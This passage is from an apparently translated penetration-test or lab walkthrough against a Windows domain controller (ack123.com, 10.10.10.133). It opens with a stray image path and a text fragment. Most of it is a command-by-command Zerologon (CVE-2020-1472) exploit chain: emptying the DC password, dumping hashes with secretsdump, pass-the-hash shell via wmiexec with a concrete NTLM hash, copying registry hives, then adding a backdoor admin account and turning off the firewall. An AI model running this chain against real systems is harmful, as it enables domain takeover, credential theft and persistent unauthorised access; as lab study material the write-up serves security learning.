 ````sql
andard 9600
```

The domain control is `10.10.10.133` and there is a `MS17-010` vulnerability. After `run post/multi/manage/autoroute`, it tried to hit the domain control but it kept hitting the blue screen, causing the utilization failure. Testing the `Netlogon` vulnerability, it also exists.

![](./images/23.png)

Here we use the `Netlogon` vulnerability to directly attack domain control:

```bash
# Vulnerability Verification
python zerologon_tester.py DC_NETBIOS_NAME DC_IP_ADDR

# Empty DC password
python cve-2020-1472-exploit.py DC_NETBIOS_NAME DC_IP_ADDR

# Get HASH, use secretsdum.py in the impacket package to get the relevant HASH
python secretsdump.py DOMAIN/DC_NETBIOS_NAME\$@DC_IP_ADDR -no-pass

# Get the shell. After obtaining HASH, you can use wmiexec.py to log in to get SHELL
python wmiexec.py -hashes <HASH> DOMAIN/DOMAIN_USER@DC_IP_ADDR
```

![](./images/24.png)

```bash
# Restore the original HASH, execute the following command to obtain the original HASH in SAM
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del /f system.save
del /f sam.save
del /f security.save
exit

# parse HASH, execute the following command, and use secretsdump.py to parse NTHASH stored locally
python secretsdump.py -sam sam.save -system system.save -security security.save LOCAL

# Restore HASH
python reinstall_original_pw.py DC_NETBIOS_NAME DC_IP_ADDR <ORI_HASH>

# Verify whether to recover
python secretsdump.py DOMAIN/DC_NETBIOS_NAME\$@DC_IP_ADDR -no-pass
```

![](./images/25.png)

Then use the `Shell` obtained by `wmiexec.py` to add a user to the administrator group, then close the firewall and enable `3389` remote login.

```bash
python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:bc23a1506bd3c8d3a533680c516bab27 ack123.com/Administrator@10.10.10.133

net user admin QWEasd123!@# /add
net localgroup administrators admin /add

netsh advfirewall set allprofiles state off
````